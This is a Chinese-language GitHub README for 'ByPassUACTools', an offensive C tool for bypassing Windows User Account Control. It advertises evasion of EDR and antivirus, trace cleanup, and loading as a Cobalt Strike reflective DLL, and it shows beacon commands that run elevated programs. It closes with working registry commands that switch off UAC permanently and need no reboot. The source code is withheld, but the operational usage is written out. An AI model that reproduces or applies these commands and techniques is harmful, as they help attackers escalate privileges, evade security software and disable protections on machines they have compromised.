 # ByPassUACTools

![Author](https://img.shields.io/badge/Author-Trim & xiaoxiong-blueviolet) ![Bin](https://img.shields.io/badge/ByPassUACTools-Bin-ff69b4)  ![build](https://img.shields.io/badge/build-passing-green.svg)  ![language](https://img.shields.io/badge/language-C-blue.svg)

### 简介

- **Windows 平台下的UAC(User Account Contro) 限制绕过工具。**

- **Windows 7 及以上版本系统（含Server版）。**

- **UAC防护级别小于或等于默认等级、当前进程的用户权限为管理员组（Administrators）用户权限。**

---

### 免责说明

- **避免恶意使用此工具，故不提供完整的工程项目源码和二进制文件，主要分享和提供思路供大家参考。**

---

### 设计思路

UAC（User Account Control，用户帐户控制）是 Windows Vista 版本后开始引入的一种系统安全机制，它在操作系统中定义了多种用户访问的安全级别，可以防止在非管理员权限下的存在恶意应用程序或恶意进程对系统范围（管理员级别）的配置进行访问或资源调度。

1. **自动检测当前系统运行环境:**
     - 自动检测当前系统是否开启UAC与当前UAC等级是否满足Bypass条件；
     - 自动检测当前进程所属用户的权限是否为管理员权限；
2. **主要核心功能**:
     - 支持以ByPass UAC的方式执行一个指定的二进制程序；
     - 所有内置的ByPassUAC模块在执行时不触发EDR-Agent和杀毒软件的告警；
     - 具备痕迹清除，在执行特定的ByPassUAC模块后，在退出前会清理落地的文件和恢复已修改的配置；

---

### 功能演示

#### 1、以ByPass UAC的方式执行一个指定的二进制程序

> 在具有安全软件和默认开启UAC的系统环境下，启动`regedit.exe`为例
- 直接运行会触发UAC桌面弹框提示
<img src="imgs/image-20220328164120370.png" alt="image-20220328164120370" style="zoom:33%;" />

- 通过`ByPassUACTools.exe`执行`regedit.exe`，则可以绕过系统UAC，同时该行为可以躲避杀软的系统防御检测。

<img src="imgs/image-20220328164148608.png" alt="image-20220328164148608" style="zoom: 50%;" />

#### 2、支持CobaltStrike Reflective DLL内存加载，绕过UAC运行指定的可执行文件（支持参数）

> 调用`C:\Windows\System32\cmd.exe`，附加参数执行指定的命令为例

```
beacon> bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

#### 演示效果如下：

- 是否开启UAC

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- 查询UAC等级

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

- 执行需要管理员权限的特定命令进行测试

```
beacon> shell C:\Windows\System32\cmd.exe /c echo test > C:\test.txt

beacon> shell dir C:\test.txt
```

- 通过bypassuactools执行特定命令

```
bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

- 确认执行成果

```
shell type C:\test.txt
```

<img src="imgs/image-20220328143949418.png" alt="image-20220328143949418" style="zoom:25%;" />



### 其他：

#### 1.增加了永久关闭UAC的方法 ：

##### 1.1 演示效果如下：

<img src="imgs/image-20220328212625548.png" alt="image-20220328212625548" style="zoom: 40%;" />

##### 1.2 设计原理

> 注解：系统UAC的配置均在该注册表路径下：
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/12867da0-2e4e-4a4f-9dc4-84a7f354c8d9

```
HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Policies/System
```
##### 关键的注册表键说明：

- ConsentPromptBehaviorAdmin (UAC强度级别)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin"
```
- EnableLUA (启动UAC策略)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- PromptOnSecureDesktop (禁用UAC桌面弹框提示)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop"
```

##### 具体操作：

>  无需重启即可生效

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop" /t reg_dword /d 0 /F
```

